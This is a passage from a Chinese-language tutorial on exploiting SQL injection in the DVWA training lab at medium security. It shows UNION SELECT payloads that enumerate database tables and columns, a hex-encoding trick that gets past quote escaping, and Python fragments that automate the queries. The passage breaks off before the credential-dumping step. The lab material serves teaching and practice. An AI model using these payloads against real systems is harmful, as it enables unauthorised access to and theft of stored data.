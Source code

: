 在这一步中，我们希望获得有关感兴趣的表及其列的信息。

给我们提供结果的查询如下:

```
-1 UNION SELECT 1,table_name FROM information_schema.tables WHERE table_type='base table' AND table_schema='dvwa';
```

我们有两个问题:

*   引号被转义，这个查询将不起作用
*   脚本必须同时运行，所以在运行脚本之前我们不知道模式名

我们可以通过用相应的十六进制表示替换字符串来解决第一个问题，通过使用格式字符串并在运行时插入值来解决第二个问题(然后在我们的脚本中用十六进制表示替换它)。

因此，Python 查询变量将是这样的:

```
query_tables = "-1 UNION SELECT 1,table_name FROM information_schema.tables WHERE table_type=0x62617365207461626c65 AND table_schema=0x{}; #"
```

另一个输入必须按照相同的原则检索列名，应该如下所示。

```
-1 UNION SELECT 1, column_name FROM information_schema.columns WHERE table_name='users'
```

问题是一样的:

*   我们不应该知道表的名称是“user”
*   引号被转义

所以即使是解也和之前的没有什么不同，查询变量是这样的

```
query_users_cols = "-1 UNION SELECT 1, column_name FROM information_schema.columns WHERE table_name=0x{} #"
```

由于结果将是两个查询的列表，我们希望用户能够从主要的标准输入中选择感兴趣的值。

```
table_name = input("Type the table name you want\n")
print("\nThe columns' names in users table are:")
for column in send_query(
    query_users_cols.format(table_name.encode("utf-8").hex()), session
):
    print(beautify_query_single(column))
print ()
```

您可以注意到表名是如何用前面解释的 Python 方法转换成十六进制版本的。

# 获取用户名和密码

我们已经看到了中等安全级别的 DVWA 中的 SQL 注入是如何给初学者带来一些麻烦的。然而，如果你仔细阅读这篇文章，最后一步应该是自然而然的。

即使在这种情况下，我们也希望在运行时插入想要显示的列名。
所以查询变量如下:
